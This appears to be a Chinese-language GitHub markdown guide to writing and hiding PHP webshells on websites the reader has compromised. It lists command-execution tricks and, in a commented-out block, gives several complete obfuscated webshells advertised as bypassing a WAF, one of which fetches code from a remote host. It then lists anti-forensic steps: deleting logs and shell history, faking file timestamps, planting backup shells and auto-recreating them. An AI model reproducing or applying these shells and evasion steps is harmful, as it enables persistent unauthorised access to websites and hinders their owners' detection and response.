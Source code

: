 # php一句话编写技巧

拿下一个站后总希望自己的后门能够很隐蔽！不让网站管理员或者其他的Hacker发现，网上关于隐藏后门的方法也很多，如加密、包含，解析漏洞、加隐藏系统属性等等，但大部分已经都不实用了，随便找一个查马的程序就能很快的查出来，下面分享我总结的一些经验：

## 制作免杀webshell

隐藏webshell最主要的就是做免杀，免杀做好了，你可以把webshell放在函数库文件中或者在图片马中，太多地方可以放了，只要查杀工具查不到，你的这个webshell就能存活很长时间，毕竟管理员也没有那么多精力挨个代码去查看。

### 命令执行的方法

这里使用我们最常用的php的一句话马来给大家做演示，PHP版本是5.6的，在写一句话马之前我们来先分析一下PHP执行命令方法

1、直接执行

使用php函数直接运行命令,常见的函数有(eval、system、assert)等，可以直接调用命令执行。

```php
@eval('echo 这是输出;');
```

2、动态函数执行

我们先把一个函数名当成一个字符串传递给一个变量，在使用变量当作函数去执行

```php
$a="phpinfo";$a();
```

3、文件包含执行

有两个php文件，我们把执行命令的放在文件b中，使用文件a去包含，达到执行的效果

```php
b.php
<?php
@eval('echo 这是输出;');

a.php
<?php
include a.php
```

4、回调函数

将想要执行命令的函数赋值给一个变量，再用一个可以调用函数执行的函数把变量解析成函数，这么说可能有点绕，看一下array_map函数的用法：array_map函数中将$arr每个元素传给func函数去执行，例子：

```php
<?php
$func = 'system';
$arr = array('whoami');
array_map($func, $arr);
```

5、PHP Curly Syntax

我们可以理解为字符串中掺杂了变量，再使用变量去拼接字符串，达到命令执行的效果

```php
<?php
$a = 'p';
eval("{$a}hpinfo();");
```

6、php反序列化

这是根据php反序列化漏洞来实现命令执行，可以先创建一个反序列化的漏洞文件，再去调用反序列化函数`unserialize`

```php
<?php

class test{
    public $a="123";
    public function __wakeup(){
        eval($this->a);
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:10:"phpinfo();";}');
```

7、php://input方法

`php://input`可以访问请求的原始数据的只读流，我们可以理解为我们传post参数，`php://input`会读取到，这时候我们就可以加以利用了

```php
<?php
@eval(file_get_contents('php://input'));
```

8、preg_replace方法

`preg_replace`函数执行一个正则表达式的搜索和替换。我们可以使用一个命令执行函数去替换正常的字符串，然后去执行命令

```php
<?php
echo preg_replace("/test/e",phpinfo(),"jutst test");
```

9、ob_start

ob_start函数是打开输出控制缓冲，传入的参数会在使用`ob_end_flush`函数的时候去调用它执行输出在缓冲区的东西

```php
<?php
$cmd = 'system';
ob_start($cmd);
echo "whoami";
ob_end_flush();//输出全部内容到浏览器
```

小知识点

```php
ECHO ${"_GE"."T"}['s']; # 也是get

$b = "assert"; $a = 'b'; echo $$a; #等于assert,级别为1，可疑时可以尝试用它

function # 函数,级别为1，可疑时可以尝试用它
```

<!--
```php
// 1 可疑文件
// ?id=1.assert|asd&tid=phpinfo()
function newsSearch($para0){
    $evil=$para0;
    $exec=substr($get,2,strpos($get, '|')-2);
    $get = $_GET['id'];
    call_user_func_array($exec,array($evil));
}
newsSearch($_GET['tid']);
// call_user_func_array(assert,array('phpinfo();'));

function newsSearch($para0,$para1){
    $evil=$para0;
    call_user_func_array($para1,array($evil));
}
$exec=base64_decode($_GET['id']);
newsSearch($_POST['tid'],$exec);

------------------------
// 0 完全过狗
// ?key=phpinfo()&exec=YXNzZXJ0
// php == 5.6
function newsSearch($para0,$para1){
    $evil=$para0;
    $exec=$para1;
    array_udiff($arr=array($evil) , $arr2 = array(1) ,$exec);
}
$exec=base64_decode($_REQUEST['exec']);
newsSearch($_GET['key'],$exec);
// array_udiff($arr = array(phpinfo()), $arr2 = array(1) , "assert");


-----------------------
// 0 完全过狗
// ?id=YXNzZXJ0     密码：op
// php < 7
error_reporting(0);
//$session =  //assert
function test($para){
    session_set_save_handler("open", "close", $para, "write", "destroy", "gc");
    @session_start(); // 打开会话
}
$session=base64_decode($_REQUEST['id']);
// open第一个被调用，类似类的构造函数
function open($save_path, $session_name){}
// close最后一个被调用，类似 类的析构函数
function close(){}
// 执行session_id($_REQUEST['op'])后，PHP自动会进行read操作，因为我们为read callback赋值了assert操作，等价于执行assert($_REQUEST['op'])
session_id($_REQUEST['op']);
function write($id, $sess_data){}
function destroy($id){}
function gc(){}
// 第三个参数为read  read(string $sessionId)
test($session);

// -------------------
// 自己写的0 完全过狗简化版
// php < 7  密码id
function downloadFile($url){
    $ary = parse_url($url);
    $file = basename($ary['path']);
    $ext = explode('.',$file);
    $fileName =  $ext[1];
    $fileName = rand(0,1000).$fileName;
    $file = file_get_contents($url);
    if(!isset($file)){$ary = parse_url($url);$files = basename($ary['path']);$ext = explode('.',$files);$fileName =  $ext[1];$fileName = rand(0,1000).$fileName;}
    return $file;
}
$s  = downloadFile('http://fake-blog.com/asdasfafga.txt');
$id = $_POST['id'];$URL = 'id';@$s($$URL);

// -------------------
// 自己写的0 完全过狗简化版
// php < 7  密码id
function downloadFile($url){
    $ary = parse_url($url);
    $file = basename($ary['path']);
    $ext = explode('.',$file);
    // assert
    $exec1=substr($ext[0],3,1);
    $exec2=substr($ext[0],5,1);
    $exec3=substr($ext[0],5,1);
    $exec4=substr($ext[0],4,1);
    $exec5=substr($ext[0],7,2);
    $as = $exec1 . $exec2 . $exec3 . $exec4 . $exec5;
    return $as;
}
$s  = downloadFile('http://www.baidu.com/asdaesfrtafga.txt');
$id = $_GET['id'];$URL = 'id';@$s($$URL);

// -------------------
// 自己写的0 完全过狗简化版
// php 7  密码3s79kV

<?php
@error_reporting(0);
if (isset($_GET['3s79kV']))
{
    $key=substr(md5(uniqid(rand())),16);
    $skey=substr(md5(uniqid(rand())),rand(4,16));
    $_SESSION['k']=$key;
    setcookie("uid", $key.$skey);
}else{
    $skey=substr(md5(uniqid(rand())),rand(4,16));
    $a="tents";
    $b='file_'.'get_con'.$a;
    function c($p)
    {
        return eval($p."");
    }
    
    $post = $skey.'|'.$_POST['3s79kV'];
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __construct($p) {c($p);}}
	@new C($params);
}
?>


<?php
function downloadFile($url,$x){
    $ary = parse_url($url);
    $file = basename($ary['path']);
    $ext = explode('.',$file);
    // assert
    $str=str_replace('d','',$ext[0]);
    $str=str_replace('j','',$str);
    $as[0] = $str;
    $as[1] = $x['x'];
    return $as;
}
$a = $_POST;
$s  = downloadFile('http://www.baidu.com/asdjdsejjrjtdd.txt',$a);
$b = $s[0];
$c = $s[1];
array_map($b,array($c));
``` -->

## 更好的隐藏webshell一些建议

1. 拿到权限以后,把网站日志中的所有关于webshell的访问记录和渗透时造成的一些网站报错记录全部删除
2. 把webshell的属性时间改为和同目录文件相同的时间戳,比如linux中的touch就是非常好的工具
3. 目录层级越深越好,平时网站不出问题的话,一般四五级目录很少会被注意到,尽量藏在那些程序员和管理员都不会经常光顾的目录中比如:第三方工具的一些插件目录,主题目录,编辑器的图片目录以及一些临时目录
4. 利用php.ini 配置文件隐藏webshell,把webshell的路径加入到配置文件中
5. 尝试利用静态文件隐藏一句话,然后用.htaccess 规则进行解析
6. 上传个精心构造的图片马,然后再到另一个不起眼的正常的网站脚本文件中去包含这个图片马
7. 靠谱的方法就是直接把一句话插到正常的网站脚本文件里面,当然最好是在一个不起眼的地方,比如:函数库文件,配置文件里面等等,以及那些不需要经常改动的文件……
8. 如果有可能的话,还是审计下目标的代码,然后想办法在正常的代码中构造执行我们自己的webshell,即在原生代码中执行webshell
9. webshell里面尽量不要用类似eval这种过于敏感的特征,因为awk一句话就能查出来,除了eval,还有,比如:exec,system,passthru,shell_exec,assert这些函数都最好不要用,你可以尝试写个自定义函数,不仅能在一定程度上延长webshell的存活时间也加大了管理员的查找难度,也可以躲避一些功能比较简陋waf查杀,此外,我们也可以使用一些类似:call_user_func,call_user_func_array,诸如此类的回调函数特性来构造我们的webshell,即伪造正常的函数调用
10. webshell的名字千万不要太扎眼,比如:hack.php,sb.php,x.php这样的名字严禁出现……,在给webshell起名的时候尽量跟当前目录的,其他文件的名字相似度高一点,这样相对容易混淆视听,比如:目录中有个叫new.php的文件,那你就起个news.php
11. 如果是大马的话,尽量把里面的一些注释和作者信息全部都去掉,比如intitle字段中的版本信息等等,用任何大马之前最好先好好的读几遍代码,把里面的shell箱子地址全部去掉推荐用开源的大马,然后自己拿过来仔细修改,记住,我们的webshell尽量不要用加密,因为加密并不能很好的解决waf问题,还有,大马中一般都会有个pass或者password字符,建议把这些敏感字段全部换成别的,因为利用这样的字符基本一句话就能定位到
12. 养成一个好习惯,为了防止权限很快丢失,最好再同时上传几个备用webshell,注意,每个webshell的路径和名字千万不要都一样更不要在同一个目录下,多跳几层,记住,确定shell正常访问就可以了,不用再去尝试访问看看解析是否正常,因为这样就会在日志中留下记录,容易被查到
13. 当然,如果在拿到服务器权限以后,也可以自己写个脚本每隔一段时间检测下自己的webshell是否还存在,不存在就创建
14. 在有权限的情况,看看管理员是否写的有动态webshell监测脚本,务必把脚本找出来,crontab一般都能看见了

后话
真正的后门，要靠系统层
对于 PHP 后门来说，如果能做到隐蔽性，不会被D盾等工具自动检测出来。人工查看时，一时半会儿也看不出有问题，其实就够了。

受限于运维的日志审查，通过 PHP 去进行后渗透不太现实，PHP 后门最大的意义在于，留有一个通道。等其它通道关闭或者网站迁移（总要移代码吧）时，能够维持对目标站的控制。

而真正的后渗透操作，还是要考系统层的其它技巧，比如 shift 后门，ssh 后门，注册表木马等等~这些都是后话了~

擦除痕迹
想要让后面隐蔽，除了以上几点，还要清理好文件操作的痕迹。在 Linux 下就是删除 .bash_history 和 .viminfo 的记录，这些记录显示了你前段时间执行了哪些命令，修改了哪些文本。

我这里只是根据个人经验总结了一些比较常用的,当然,肯定还有更多更好更高级的关于webshell的隐藏方法,欢迎大家在下面留言